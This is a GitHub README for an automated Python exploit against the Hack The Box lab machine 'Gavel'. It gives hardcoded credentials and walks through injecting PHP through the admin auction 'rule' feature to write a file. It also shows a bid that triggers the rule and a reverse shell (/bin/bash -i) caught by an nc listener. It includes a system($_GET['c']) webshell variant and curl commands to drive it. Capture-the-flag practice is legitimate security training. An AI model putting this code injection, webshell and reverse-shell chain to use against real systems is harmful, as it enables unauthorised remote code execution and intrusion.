

# HTB "Gavel" — Automated Auction Rule → RCE Exploit

<p align="center">
  
  
  
  
  
  
  
</p>

**Made by [copper_nail](https://app.hackthebox.com/users/1510938) aka `symphony2colour`**

This repository contains an automated Python exploit for the Hack The Box machine **Gavel**.  
It chains several application flaws to obtain a **remote shell** as the auction user:

- Valid credentials for the `auctioneer` user
- Server-side auction “rules” that are executed when bids are processed
- Ability to write arbitrary PHP files into `includes/`
- Triggering a **reverse shell** via a generated PHP payload

> **For CTF / lab use only.**  
> This PoC is made for the HTB environment (`gavel.htb`) and must **not** be used against systems you don’t own or have explicit permission to test.

---

## Features

- Logs in as `auctioneer` (credentials can be customized in the script)
- Enumerates active auctions from `bidding.php`
- Automatically picks candidate auctions based on `data-end` timestamps
- Injects a PHP reverse shell using the admin “rule” mechanic
- Places a bid via `bid_handler.php` to trigger the injected rule
- Starts a `nc` listener and fires the webshell automatically
- Randomized shell name like `shell_ab12cd34.php` for each run

---

## How it works (high-level)

1. **Login**  
   The script performs a basic login against:

   - `http://gavel.htb/login.php`

   using the hardcoded credentials:

   ```python
   username = "auctioneer"
   password = "midnight1"
   ```

   You can change these at the top of the script if needed.

2. **Auction discovery**  
   It fetches:

   - `http://gavel.htb/bidding.php`

   then parses each auction card:

   - Extracts `auction_id`
   - Extracts `data-end` (UNIX timestamp)
   - Extracts current bid (`Current:` value)

   It prefers auctions whose `data-end` is still in the future; if all appear ended, it falls back to all of them.

3. **Rule injection → file write**  
   For each candidate auction, it sends a POST to:

   - `http://gavel.htb/admin.php`

   with a crafted **rule** like:

   ```php
   file_put_contents('shell_xxx.php', '<?php ... reverse shell ... ?>'); return true;
   ```

   This writes a PHP file into the `includes/` directory with a randomized name such as `shell_ab12cd34.php`.

4. **Bid trigger**  
   It then sends a multipart/form-data POST to:

   - `http://gavel.htb/includes/bid_handler.php`

   with:

   - `auction_id`
   - `bid_amount` = current bid + 1

   A successful bid triggers the injected rule for that auction, causing the PHP reverse shell to be written.

5. **Reverse shell execution**  
   Finally, script performs following actions:

   - Starts a local `nc -lvnp <port>` listener
   - Performs a GET request to:
     `http://gavel.htb/includes/<generated_shell_name>`
   - The PHP payload connects back to the listener with an interactive `/bin/bash -i` session.

---

## Requirements

- Python **3.8+**
- `requests` library

Install dependencies:

```bash
pip install requests
```

---

## Usage

> Make sure you are connected to the **Hack The Box VPN**.
> Link VPN IP to gavel.htb in /etc/hosts file

### Basic usage (with auto listener)

```bash
python3 gavel_exploit.py <LHOST> <LPORT>
```

Example:

```bash
python3 gavel_exploit.py 10.10.14.70 5050
```

### Without auto listener

If you prefer to run your own listener:

```bash
python3 gavel_exploit.py <LHOST> <LPORT> --no-listen
```

Then, in another terminal:

```bash
nc -lvnp <LPORT>
```

The script will **not** start `nc` for you.

---

## Script arguments

```text
positional arguments:
  ip            Your listener IP address (for reverse shell, etc.)
  port          Your listener port (1–65535)

optional arguments:
  --no-listen   Skip auto listener (start your own nc manually)
```
---

## Customization

- **Credentials**  
  Edit these at the top of the file if HTB changes them or you want to test another user:

  ```python
  username = "auctioneer"
  password = "midnight1"
  ```

- **Payload type**  
  By default, the script writes a **reverse shell** PHP file.  
  You can switch to a classic “command via GET parameter” webshell by changing:

  ```python
  # rule = f"file_put_contents('{shell_name}','<?php system($_GET["c"]); ?>'); return true;"
  rule = f"file_put_contents('{shell_name}','{php_code}'); return true;"
  ```

  to:

  ```python
  rule = f"file_put_contents('{shell_name}','<?php system($_GET["c"]); ?>'); return true;"
  ```

  and then call:

  ```bash
  curl "http://gavel.htb/includes/<shell_name>?c=id"
  ```

---

## PoC (Screenshot):



---
## Legal & Ethical Notice

This code is written **specifically for the Hack The Box machine "Gavel"** and is intended **only** for:

- Learning  
- CTF environments  
- Systems you explicitly own or are authorized to test  

Using this PoC against real-world infrastructure without permission is **illegal** and against the Hack The Box Terms of Service.  
You are solely responsible for how you use this code.

---

If you found this useful, drop a ⭐ on the repo 🙂
